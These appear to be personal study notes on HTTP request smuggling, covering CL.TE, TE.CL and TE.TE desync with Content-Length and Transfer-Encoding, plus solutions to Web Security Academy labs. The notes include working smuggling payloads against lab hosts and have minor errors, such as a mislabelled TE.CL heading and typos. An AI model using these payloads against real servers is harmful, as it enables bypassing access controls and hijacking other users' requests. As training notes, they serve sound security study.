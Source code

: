 ## HTTP Request Smuggling

### Overview
- Interfering with the way a site processes sequences of HTTP requests received from one or more users
- Usually allows bypassing security controls, gaining of unauthorized access, compromising other users 
- Primarily associated with HTTP/1 requests; however, some HTTP/2 vulnerable depending on backend architecture
- Today's web apps usually employ chains of HTTP servers between users and the ultimate logic: users send requests to the frontend server (sometimes called a load balancer or reverse proxy) and this server forwards the request(s) to one or more backend servers. 
- Typically, when the frontend server forwards HTTP requests to the backend server, it sends several requests over the same connection for efficiency and performance. HTTP requests are sent one after another, and the receiving server has to determine where one request ends and the next one begins: 

![User Requests from Frontend to Backend](Photos/forwarding-http-requests-to-back-end-server.svg)

- An attacker can try and trick the backend server. For example, an attacker might send an ambiguous request that gets interpreted differently by the frontend and the backend systems. In this example, the attacker causes part of their frontend request to be interpreted by the backend server as the start of the next request. It is effectively prepended to the next request and can interfere with the way the application processes that request:

![alt text](Photos/smuggling-http-request-to-back-end-server.svg)

### How Does This Happen?

- HTTP/1 specification provides two different ways to specify where a request ends:
    1. `Content-Length` header: Pretty straightforward. Specifies the length of the message body in bytes. 
    2. `Transfer-Encoding` header: Specify that the message body uses chunked encoding. Means that the message body contains one or more chunks of data. Each chunk consists of the chunk size in bytes (expressed in a hexadecimal), followed by a newline, followed by the chunk contents. Terminated with a chunk of size zero. For example, hexadecimal of B is 11 (binary: 1011), so b for q=smuggling.

```
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

```
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

b
q=smuggling
0
```
- Burp Suite auto unpacks chunked encoding to make messages easier to view and edit. Browsers do not normally use chunked encoding in requests, and it is normally seen only in server responses. 
- Since the HTTP/1 specification provides two different methods for specifying the length of HTTP messages, it is possible for a single message to use both methods at once, such that they conflict with each other. The specification attempts to prevent this problem by stating if both the `Content-Length` and `Tranfer-Encoding` headers are present, then the `Content-Length` header should be ignored. This may be sufficient to avoid ambiguity when only a single server is in play, but not when two or more servers are chained together. In this situation, problems can arise for two reasons:
    1. Some servers do not support the `Transfer-Encoding` header in requests
    2. Some servers that do support the `Transfer-Encoding` header can be induced not to process it if the header is obfuscated in some way
- If the frontend and backend servers behave differently in relation to the (possibly obfuscated) `Transfer-Encoding` header, then they might disagree about the boundaries betwen successive requests, leading to request smuggling vulnerabilities. 
- HTTP/2 end-to-end is inherently immune to request smuggling as it introduces a single, robust mechanism for specifying the length of a request. There is no way for an attacker to introduce the required ambiguity. HOWEVER, many websites have HTTP/2 frontend, but deploy backend infrastructure that only supports HTTP/1. This means frontend has to translate the requests it receives to HTTP/1. Known as HTTP downgrading - more on this in more advanced request smuggling. 

### How to Perform Request Smuggling
- Classic request smuggling attacks involve placing both the `Content-Length` header and the `Transfer-Encoding` header into a single HTTP/1 request and manipulating these so that the frontend and the backend servers process the request differently. This is done in different ways depending on the behavior of the two servers:
    - **CL.TE**: The frontend server uses the `Content-Length` header and the backend server uses the `Transfer-Encoding` header. 
    - **TE.CL**: The frontend server uses the `Transfer-Encoding` header and the backend server uses the `Content-Length` header.
    - **TE.TE**: The frontend and the backend servers both support the `Transfer-Encoding` header, but one of the servers can be induced not the process it by obfuscating the header in some way. 
- These are only possible, as mentioned, using HTTP/1 requests. Browsers and other clients, including Burp, use HTTP/2 by default to communicate with servers that explicitly advertise support for it during the TLS handshake. When testing sites with HTTP/2 support, you will need to manually swith protocols in Burp Repeater. You can do this in the `Request attributes` section of the Inspector panel. 

### CL.TE Vulnerabilities
- The frontend server uses the `Content-Length` header and the backend server uses the `Transfer-Encoding` header. Perform a simple HTTP request smuggling attack as follows in the code block below. The frontend processes the `Content-Length` header and determines the request body is 13 bytres long, up to the end of `SMUGGLED`. Request is forwarded to backend server. 
- Backend server processes the `Transfer-Encoding` header and treats the message body as using chunked encoding. It processes the first chunk, stated to be zero length, and so is treated as terminating the request. The following bytes, SMUGGLED, are left unprocessed, and the backend server treats them as the start of the next request in the sequence. 

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

#### Lab: HTTP Request Smuggling, Basic CL.TE Vulnerability
- Involves a frontend and backend, and the frontend does not support chunked encoding. The frontend server rejects requests that aren't using GET or POST method. To solve, smuggle a request to the back-end server so that the next request processed by the backend server appears to use the method `GPOST`. 
- So in this case, the frontend server uses the `Content-Length` header and the backend server uses `Transfer-Encoding`. We are saying the content does not include that extra stuff after the 0 ... 

```
POST /post/comment HTTP/1.1
Host: 0a6a0085043d4777a0b4b6c700920024.web-security-academy.net
Cookie: session=d4CNLJNIRZeA47ItYi9ktIm1ovuiqVdb
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:142.0) Gecko/20100101 Firefox/142.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a6a0085043d4777a0b4b6c700920024.web-security-academy.net/post?postId=9
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-Pwnfox-Color: yellow
Priority: u=0, i
Content-Length: 1
Transfer-Encoding: chunked

0

G
```

![alt text](Photos/image.png)

### CL.TE Vulnerabilities
- So, here, the frontend is using the `Transfer-Encoding` header and the backend server is using the `Content-Length` header. Perform simple HTTP request smugging with the following: 

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```

#### Lab: HTTP Request Smugging, Basic TE.CL Vulnerability
- I had trouble making this work manually through Burp Repeater; I solved the lab using their Smuggler extension. Attempting to send the request twice did not result in the expected GPOST error. 
- Starting from the recon phase, I noticed that when I added `Transfer-Encoding: chunked`, the request was timing out/taking a while. When I added in a 0 to indicate the end of the chunk, I received a 200 OK...Adding a `Content-Length`...

```
POST / HTTP/2
Host: 0aef000d03ef0a09810d4d8100cb00e8.web-security-academy.net
Test-Header: 18
Content-Type: application/x-www-form-urlencoded
Content-Length: 103
Transfer-Encoding: chunked
Connection: keep-alive

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```